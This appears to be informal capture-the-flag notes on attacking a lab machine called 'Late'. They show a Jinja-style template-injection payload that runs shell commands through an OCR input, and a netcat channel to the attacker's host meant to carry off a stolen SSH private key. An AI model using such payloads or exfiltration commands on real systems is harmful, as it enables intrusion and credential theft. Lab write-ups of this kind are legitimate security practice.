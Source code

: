 Can't do much with this either, asks for password
`
CMD (or 'exit')> lsb_release -a
[ Tried:	tesseractSux {{ joiner.__init__.__globals__.os.popen('lsb_release -a').read() }}
Distributor ID:	Ubuntu
Description:	Ubuntu 18.04.5 LTS
Release:	18.04
Codename:	bionic
`
Made sure I'm able to at least ping my host, yup:
`
┌─[root@parrotLT]─[/h/late]
└──╼ #tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
10:06:58.713219 IP late > 10.10.14.47: ICMP echo request, id 10232, seq 1, length 64
10:06:58.713269 IP 10.10.14.47 > late: ICMP echo reply, id 10232, seq 1, length 64
10:06:59.708415 IP late > 10.10.14.47: ICMP echo request, id 10232, seq 2, length 64
10:06:59.708464 IP 10.10.14.47 > late: ICMP echo reply, id 10232, seq 2, length 64
10:07:00.710278 IP late > 10.10.14.47: ICMP echo request, id 10232, seq 3, length 64
10:07:00.710326 IP 10.10.14.47 > late: ICMP echo reply, id 10232, seq 3, length 64
`
see if I can hit my port 4424:
`nc -lvp 4424  # my side
echo hi | nc 10.10.14.47 4424
`
yup, working:
`
└──╼ #4424 id_rsa2
listening on [any] 4424 ...
connect to [10.10.14.47] from late [10.10.11.156] 33246
^C
┌─[✗]─[root@parrotLT]─[/h/late/ImageReader]
└──╼ #cat id_rsa2
hi
`

so, I should be able to send id_rsa ??

Still not working..  Verified what I had with ssh-keygen:
`
┌─[root@parrotLT]─[/h/late]
└──╼ #ssh-keygen -l -f id_rsa
2048 SHA256:1KD/tiC8jB35o+21qOhTPDP8xfclOHf9C+U2p6gfjpc svc_acc@late (RSA)
`
Shows a good signature it looks like, sha256... Searched and not sure, might come back to it once more.. seems to look okay, but I'm guessing there are some chars that don't decode from base64 properly

Downloaded a .pyc file and noticed this, probably nothing though:
`secret_key�routerr6rrrr<module>s`

Saved  a couple variations in passwd.txt but .. moving on for now, need this id_rsa
